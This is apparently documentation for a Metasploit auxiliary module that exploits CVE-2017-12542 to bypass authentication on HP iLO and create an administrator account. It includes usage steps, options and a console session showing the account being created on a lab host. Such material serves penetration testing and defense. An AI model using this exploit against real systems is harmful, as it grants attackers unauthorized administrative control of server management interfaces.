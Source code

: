 This module exploits the CVE-2017-12542 for authentication bypass on HP iLO, which is 100% stable when exploited this way, to create an arbitrary administrator account.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/admin/hp/hp_ilo_create_admin_account`
3. Set `RHOST`
4. run `check` to check if remote host is vulnerable (module tries to list accounts using the REST API)
5. Set `USERNAME` and `PASSWORD` to specify a new administrator account credentials
6. run `run` to actually create the account on the iLO

## Options

  **USERNAME**

  The username of the new administrator account. Defaults to msf_user

  **PASSWORD**

  The password of the new administrator account. Defaults to msf_password

## Scenarios

### New administrator account creation

```
msf > use auxiliary/admin/hp/hp_ilo_create_admin_account 
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > set RHOST 192.168.42.78
RHOST => 192.168.42.78
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > check
[+] 192.168.42.78:443 The target is vulnerable.
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > set USERNAME test_user
USERNAME => test_user
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > set PASSWORD test_password
PASSWORD => test_password
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > run

[*] Trying to create account test_user...
[+] Account test_user/test_password created successfully.
[*] Auxiliary module execution completed
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > 
```